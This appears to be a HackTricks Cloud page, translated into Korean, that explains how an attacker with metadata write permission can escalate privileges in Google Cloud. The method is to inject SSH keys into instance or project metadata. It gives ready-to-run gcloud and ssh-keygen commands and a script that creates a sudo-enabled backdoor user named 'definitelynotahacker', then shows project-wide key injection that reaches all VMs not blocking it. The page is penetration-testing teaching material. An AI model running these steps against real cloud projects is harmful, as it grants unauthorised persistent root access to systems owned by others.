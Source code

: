 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

인스턴스의 메타데이터 수정은 **공격자가 필요한 권한을 얻을 경우 심각한 보안 위험을 초래할 수 있습니다**.

#### **SSH 키를 사용자 정의 메타데이터에 통합하기**

GCP에서 **리눅스 시스템**은 종종 [Google Compute Engine용 Python Linux Guest Environment](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)에서 스크립트를 실행합니다. 이의 중요한 구성 요소는 **정기적으로** 인스턴스 메타데이터 엔드포인트를 확인하여 **허가된 SSH 공개 키의 업데이트**를 확인하는 [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)입니다.

따라서 공격자가 사용자 정의 메타데이터를 수정할 수 있다면, 그는 데몬이 새로운 공개 키를 찾도록 만들 수 있으며, 이는 처리되어 **로컬 시스템에 통합됩니다**. 키는 **기존 사용자**의 `~/.ssh/authorized_keys` 파일에 추가되거나, 키의 형식에 따라 `sudo` 권한이 있는 새로운 사용자를 생성할 수 있습니다. 그리고 공격자는 호스트를 손상시킬 수 있습니다.

#### **기존 권한 있는 사용자에게 SSH 키 추가하기**

1. **인스턴스의 기존 SSH 키 확인:**
*   인스턴스와 그 메타데이터를 설명하는 명령을 실행하여 기존 SSH 키를 찾습니다. 출력의 관련 섹션은 `metadata` 아래, 특히 `ssh-keys` 키에 있습니다.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* SSH 키의 형식에 주의하십시오: 사용자 이름은 키 앞에 위치하며, 콜론으로 구분됩니다.
2. **SSH 키 메타데이터를 위한 텍스트 파일 준비:**
* 사용자 이름과 해당 SSH 키의 세부 정보를 `meta.txt`라는 텍스트 파일에 저장합니다. 이는 기존 키를 보존하면서 새로운 키를 추가하는 데 필수적입니다.
3. **대상 사용자(`alice` 예시)의 새로운 SSH 키 생성:**
*   `ssh-keygen` 명령을 사용하여 새로운 SSH 키를 생성하며, 주석 필드(`-C`)가 대상 사용자 이름과 일치하도록 합니다.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* 새로운 공개 키를 `meta.txt`에 추가하여 인스턴스의 메타데이터에서 찾은 형식을 모방합니다.
4. **인스턴스의 SSH 키 메타데이터 업데이트:**
*   `gcloud compute instances add-metadata` 명령을 사용하여 인스턴스에 업데이트된 SSH 키 메타데이터를 적용합니다.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **새로운 SSH 키를 사용하여 인스턴스에 접근:**
*   새로운 키를 사용하여 SSH로 인스턴스에 연결하고, 대상 사용자(`alice` 예시)의 컨텍스트에서 셸에 접근합니다.

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **새로운 권한 있는 사용자 생성 및 SSH 키 추가하기**

흥미로운 사용자가 발견되지 않으면, `sudo` 권한이 부여된 새로운 사용자를 생성할 수 있습니다:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH 키를 프로젝트 수준에서 <a href="#sshing-around" id="sshing-around"></a>

**프로젝트 수준에서 SSH 키를 적용**하여 클라우드 환경의 여러 가상 머신(VM)에 대한 SSH 액세스 범위를 넓힐 수 있습니다. 이 접근 방식은 프로젝트 내에서 명시적으로 프로젝트 전체 SSH 키를 차단하지 않은 모든 인스턴스에 SSH 액세스를 허용합니다. 요약 가이드는 다음과 같습니다:

1. **프로젝트 수준에서 SSH 키 적용:**
*   `gcloud compute project-info add-metadata` 명령을 사용하여 `meta.txt`의 SSH 키를 프로젝트의 메타데이터에 추가합니다. 이 작업은 VM이 "프로젝트 전체 SSH 키 차단" 옵션을 활성화하지 않는 한, SSH 키가 프로젝트의 모든 VM에서 인식되도록 보장합니다.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **프로젝트 전체 키를 사용하여 인스턴스에 SSH 접속:**
* 프로젝트 전체 SSH 키가 설정되면, 프로젝트 내의 모든 인스턴스에 SSH 접속할 수 있습니다. 프로젝트 전체 키를 차단하지 않는 인스턴스는 SSH 키를 수락하여 액세스를 허용합니다.
* 인스턴스에 SSH 접속하는 직접적인 방법은 `gcloud compute ssh [INSTANCE]` 명령을 사용하는 것입니다. 이 명령은 현재 사용자 이름과 프로젝트 수준에서 설정된 SSH 키를 사용하여 액세스를 시도합니다.

## References

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
